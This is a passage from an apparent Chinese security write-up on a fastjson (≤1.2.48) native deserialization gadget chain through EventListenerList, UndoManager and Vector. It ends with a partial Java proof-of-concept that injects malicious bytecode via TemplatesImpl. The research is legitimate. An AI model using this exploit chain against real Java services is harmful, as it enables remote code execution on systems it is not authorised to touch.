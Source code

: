 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250406132405108.png)

Vector.toString会调用到AbstractCollection.toString，循环对Vector内的每个对象调用append

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250406132717886.png)

append会调用到toString

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250406132836797.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250406132841693.png)

详细说来，链子如下：

```java
EventListenerList.readObject() -> UndoManager.tostring -> Vector.toString -> AbstractCollection.toString -> obj.toString
```

POC：

```java
package org.exploit.third.fastjson.nativeDeser;

import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.swing.event.EventListenerList;
import javax.swing.undo.CompoundEdit;
import javax.swing.undo.UndoManager;
import javax.swing.undo.UndoableEdit;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Vector;


//fastjson <= 1.2.48 原生反序列化
//EventListenerList.readobject() -> tostring
public class EventListenerList_1_2_48 {
    public static void main(String[] args) throws Exception{
        byte[] code1 = Files.readAllBytes(Paths.get("target/classes/TemplatesImpl_RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("templateClass",templatesClass);
        EventListenerList eventListenerList = new EventListenerList();
        Field listenerList = EventListenerList.class.getDeclaredField("listenerList");
        listenerList.setAccessible(true);
        Vector vector = new Vector();
        vector.add(jsonObject);
        UndoManager undoManager = new UndoManager();
```